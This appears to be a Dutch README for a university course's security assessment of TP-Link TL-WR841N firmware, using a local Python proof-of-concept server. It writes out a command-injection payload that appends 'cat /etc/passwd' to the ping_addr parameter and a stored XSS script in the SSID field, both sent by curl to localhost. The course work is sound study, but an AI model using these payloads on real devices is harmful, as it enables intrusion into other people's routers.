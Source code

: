 # TP-Link TL-WR841N Firmware Security Assessment

Dit project documenteert een security assessment van de **TP-Link TL-WR841N (v8)** firmware.  
De analyse is uitgevoerd in het kader van de **Novi University – Software Security leerlijn**.

---

## Overzicht

Tijdens dit onderzoek zijn firmwarebestanden gedownload, uitgepakt en geanalyseerd met zowel **statische** als **dynamische** methoden.  
Omdat de originele `httpd` binary beperkt draaide in emulatie, is een eigen **Python Proof-of-Concept server** (`upload_server.py`) opgezet om kwetsbaarheden te demonstreren.

**Geteste endpoints:**
1. `/userRpm/LoginRpm.htm` – Authenticatie  
2. `/userRpm/SoftwareUpgradeRpm.htm` – Firmware upload  
3. `/userRpm/BakNRestoreRpm.htm` – Config backup/restore  
4. `/userRpm/DiagnosticRpm.htm` – Ping/Traceroute  
5. `/userRpm/WlanAdvRpm.htm` – SSID configuratie  

---

## 🛠️ Voorbereiding

Firmware downloaden en uitpakken:

```bash
cd ~/iot/tplink_tlwr841n
wget https://static.tp-link.com/TL-WR841N(UN)_V8_170210.zip
unzip TL-WR841N(UN)_V8_170210.zip
cd TL-WR841N(UN)_V8_170210
binwalk -e --run-as=root wr841nv8_en_3_16_9_up_boot\(170210\).bin
tree -L 2 squashfs-root-fixed
```

## Proof-of-Concept server

De aangepaste PoC-server (upload_server.py) simuleert meerdere kwetsbare endpoints:

Config Restore Upload

Diagnostic Command Injection

WLAN SSID Stored XSS

Start de server:
```bash
python3 upload_server.py 8088
```

## Testcommando’s
1. Config Restore (BakNRestoreRpm)

Genereer een fake backup:
```bash
dd if=/dev/urandom of=backup.bin bs=1K count=1
```
Upload via PoC-server:
```bash
curl -i -X POST -F "config=@backup.bin" \
  http://127.0.0.1:8088/web/userRpm/BakNRestoreRpm.htm
```
DiagnosticRpm (Command Injection)

Kwetsbare parameter: ping_addr
```
curl -i -X POST -d "ping_addr=8.8.8.8; cat /etc/passwd" \
  http://127.0.0.1:8088/web/userRpm/DiagnosticRpm.htm
```
WLAN SSID (Stored XSS)
Injecteer payload:
```
curl -i -X POST -d "ssid=<script>alert('XSS')</script>" \
  http://127.0.0.1:8088/web/userRpm/WlanAdvRpm.htm
```
Controleer in browser dat de SSID terugkomt inclusief payload.

















